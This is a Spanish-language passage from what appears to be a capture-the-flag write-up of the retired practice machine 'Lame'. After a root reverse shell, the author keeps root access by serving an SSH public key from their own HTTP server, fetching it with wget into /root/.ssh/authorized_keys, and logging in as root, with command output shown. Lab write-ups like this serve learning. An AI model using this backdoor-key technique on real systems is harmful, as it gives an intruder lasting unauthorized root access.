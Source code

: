 Perfecto, hemos obtenido una reverse shell como root. Ya tenemos acceso a todo el filesystem, pero que pasa si se parchea la vulnerabilidad o simplemente se cierra el servicio? Pues nos quedaríamos sin acceso y mas aun porque tenemos una reverse shell. Pasemos a la siguiente etapa.

# Get SSH Access

Aplicando la vieja confiable, agregamos nuestro certificado público en las llaves autorizadas de ssh para el usuario root. Esto es posible porque tenemos una shell remota y porque la configuración de ssh permite que root pueda ingresar.

Comenzamos por iniciar un web server para compartir la llave:

``` text
xbytemx@laptop:~/.ssh$ python3 -m http.server 4001
Serving HTTP on 0.0.0.0 port 4001 (http://0.0.0.0:4001/) ...
10.10.10.3 - - [05/Nov/2019 08:24:47] "GET /id_rsa.pub HTTP/1.0" 200 -
^C
Keyboard interrupt received, exiting.
```

Mientras tanto, en el reverse shell:

``` text
wget http://10.10.14.2:4001/id_rsa.pub -O /root/.ssh/authorized_keys
--09:24:58--  http://10.10.14.2:4001/id_rsa.pub
           => `/root/.ssh/authorized_keys'
Connecting to 10.10.14.2:4001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 568 [application/octet-stream]

    0K                                                       100%  176.39 MB/s

09:24:58 (176.39 MB/s) - `/root/.ssh/authorized_keys' saved [568/568]
```

Perfecto, ya agregamos nuestra llave, ahora solo falta validar:

``` text
xbytemx@laptop:~/.ssh$ ssh -i id_rsa root@10.10.10.3
Last login: Tue Nov  5 09:06:12 2019 from :0.0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~#
```
